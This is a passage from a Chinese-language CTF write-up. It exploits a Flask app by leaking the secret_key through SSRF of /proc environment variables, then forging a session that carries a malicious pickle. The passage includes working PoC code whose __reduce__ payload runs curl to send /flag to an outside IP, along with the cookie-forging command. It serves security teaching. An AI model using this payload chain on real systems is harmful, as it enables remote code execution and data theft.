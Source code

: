 ```

    if u.is_admin == 1:
        return 'welcome, admin'
    else:
        return 'who are you?'


if __name__ == '__main__':
    app.run('0.0.0.0', port=80, debug=False)
```

代码的逻辑很明朗了，/admin 路由存在反序列化漏洞，可以获取 Flask Session 中的某个键的值进行 pickle 反序列化，由于这里被反序列化的值是可控的，所以存在 pickle 反序列化漏洞。但是要利用 pickle 反序列化漏洞我们还需要先获取 `secret_key` 来伪造 Session。

这里我们直接通过那个 SSRF 读取 /proc 目录里的环境变量，在环境变量里面找到了 `secret_key` ：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0127742a93f3f4a53b.png)

有了 `secret_key` 之后，我们开始构造 pickle 反序列化执行命令的 POC：

```
import pickle
import base64
class A(object):
    def __reduce__(self):
        return (eval,("__import__('os').system('curl 47.101.57.72:2333 -d \"`cat /flag`\"')",))
poc = A()
result = pickle.dumps(poc)
result = base64.b64encode(result)
print(result)

# 生成 Poc: Y19fYnVpbHRpbl9fCmV2YWwKcDAKKFMnX19pbXBvcnRfXyhcJ29zXCcpLnN5c3RlbShcJ2N1cmwgNDcuMTAxLjU3LjcyOjIzMzMgLWQgImBjYXQgL2ZsYWdgIlwnKScKcDEKdHAyClJwMwou
```

然后使用 `secret_key` 伪造 Session：

```
python3 flask_session_cookie_manager3.py encode -t "`{`\"u\":`{`\"b\":\"Y19fYnVpbHRpbl9fCmV2YWwKcDAKKFMnX19pbXBvcnRfXyhcJ29zXCcpLnN5c3RlbShcJ2N1cmwgNDcuMTAxLjU3LjcyOjIzMzMgLWQgImBjYXQgL2ZsYWdgIlwnKScKcDEKdHAyClJwMwou\"`}``}`" -s "glzjin22948575858jfjfjufirijidjitg3uiiuuh"
```

[![](https://p4.ssl.qhimg.com/t01d842467f61de12e4.png)](https://p4.ssl.qhimg.com/t01d842467f61de12e4.png)

用生成的 Session 替换原来的 Session，然后访问 /admin 路由即可在 VPS 上面接收到flag：

[![](https://p4.ssl.qhimg.com/t01a42680d8a17847a8.png)](https://p4.ssl.qhimg.com/t01a42680d8a17847a8.png)



## Python 格式化字符串漏洞
